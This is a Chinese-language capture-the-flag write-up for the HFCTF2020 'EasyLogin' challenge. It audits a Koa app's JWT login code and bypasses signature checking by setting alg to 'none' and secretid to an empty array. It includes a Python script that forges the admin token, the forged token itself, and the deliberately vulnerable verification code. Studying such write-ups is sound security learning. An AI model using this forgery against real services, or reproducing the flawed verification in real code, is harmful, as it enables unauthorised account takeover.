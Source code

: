 # \[HFCTF2020]EasyLogin

## \[HFCTF2020]EasyLogin

## 考点

* koa框架代码审计
* JWT特性

## wp

F12在`/static/app.js`中看到提示koa框架，百度一下找到[koa的框架结构](https://www.cnblogs.com/wangjiahui/p/12660093.html)

尝试直接访问app.js可以得到koa项目入口

![](<../.gitbook/assets/image (20) (1) (1) (1) (1).png>)

在`/static/app.js`中可以看到访问的都是api，所以这里的处理逻辑应该都是api，尝试出来代码位置是`/controllers/api.js`，代码放最后。可以看到它有一个获取token的过程

```javascript
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization
```

在登录处抓包，可以发现登录时都会加上一个`authorization`参数

![](<../.gitbook/assets/image (15) (1) (1).png>)

去[`https://jwt.io/`](https://jwt.io)可以看到解码后的内容

![](<../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png>)

把`alg`改成`none`，JWT中当`alg`为`none`，`secret`为空时，后端将不执行签名验证。

用户名密码改成`admin`，至于`secretid`，它的处理在如下代码，先从jwt里面获取`secretid`，如果`secretid`未定义、或者是空、或者小于0、或者大于等于18(`global.secrets.length`)，就会抛出错误，下一步是到全局列表变量`global.secrets`中获取`secretid`对应的下标，再去jwt验证。

参数比较多，理一下，`secret`是一个长度18的字符串，`secretid`是一个0-18的数字，`secrets`是一个列表。

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
  throw new APIError('login error', 'no such secret id');
 }
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

如果把`secretid`改成`[]`，让`secretid`为空列表，`secret`也会变成空，这样就绕过了jwt的验证

```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "admin",
  "iat": 1640163432
},
algorithm="none",key="")

print(token)
```

payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluIiwiaWF0IjoxNjQwMTYzNDMyfQ.
```

![](<../.gitbook/assets/image (16) (1) (1) (1) (1).png>)

controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

## 小结

1. JWT组成
2. JWT中当`alg`为`none`，`secret`为空时，相当于不执行签名验证。
